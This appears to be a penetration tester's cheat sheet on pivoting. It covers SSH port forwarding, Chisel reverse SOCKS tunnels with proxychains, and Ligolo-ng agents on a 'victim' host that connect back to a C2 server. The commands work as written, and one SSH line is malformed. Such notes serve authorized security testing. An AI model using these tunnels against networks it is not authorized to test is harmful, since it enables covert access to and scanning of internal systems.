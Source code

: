 
## Port forwarding ssh
##### Option `-L` (Local Port Forwarding)

- **Syntaxe** : `ssh -L [port_local]:[host_remote]:[port_remote] [utilisateur]@[hôte]`
- **Usage** : Redirige un port de votre machine locale vers un port sur la machine distante.
- **Exemple** : `ssh -L 4000:127.0.0.1:3000 johndoe@192.168.1.100`

##### Option `-R` (Remote Port Forwarding)

- **Syntaxe** : `ssh -R [port_remote]:[host_local]:[port_local] [utilisateur]@[hôte]`
- **Usage** : Redirige un port de la machine distante vers un port sur votre machine locale.
		- **Exemple** : `ssh -R 4000:127.0.0.1:3000 johndoe@192.168.1.100`
			```ssh -R1080: pentest@10.0.1.26 -N```

## Chisel / Proxychain

- Get the binary : 
```sh
wget https://github.com/jpillora/chisel/releases/download/v1.10.0/chisel_1.10.0_linux_amd64.gz

wget https://github.com/jpillora/chisel/releases/download/v1.10.0/chisel_1.10.0_windows_amd64.gz
```

Adds a line to `/etc/proxychains4.conf` to be able to use `proxychains`:

```sh
socks5 127.0.0.1 1080
```

- Download the binary on the remote host and then  : 

```sh
# On your local machine
./chisel server -p 8888 -reverse &
```

```sh
# On the remote host
./chisel client 10.8.3.12:8888 R:1080:socks &
```

```sh
proxychains -q nmap -sT localhost
```

## Ligolo-ng

```sh
Proxy : https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz

Agent_windows : https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_windows_amd64.zip

or 

Agent_linux : 
https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_linux_amd64.tar.gz
```

- Setup Ligolo-ng : 
Start the _proxy_ server on your Command and Control (C2) server (default 11601 listening will be use):

```sh
sudo ip tuntap add user p4v1c mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

- Start the _agent_ on your target (victim) computer (no privileges are required!):
```sh
./agent.exe -connect 10.8.3.12:11601 -ignore-cert
```

Use the `session` command to select the _agent_.

```sh
ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

Display the network configuration of the agent using the `ifconfig` command:
Add a route on the _proxy/relay_ server to the _192.168.0.0/24_ _agent_ network : 
```sh
sudo ip route add 10.10.11.0/24 dev ligolo
start
```

- Clean : 
```sh
sudo ip link set dev ligolo down
sudo ip tuntap del dev ligolo mode tun
 ```

 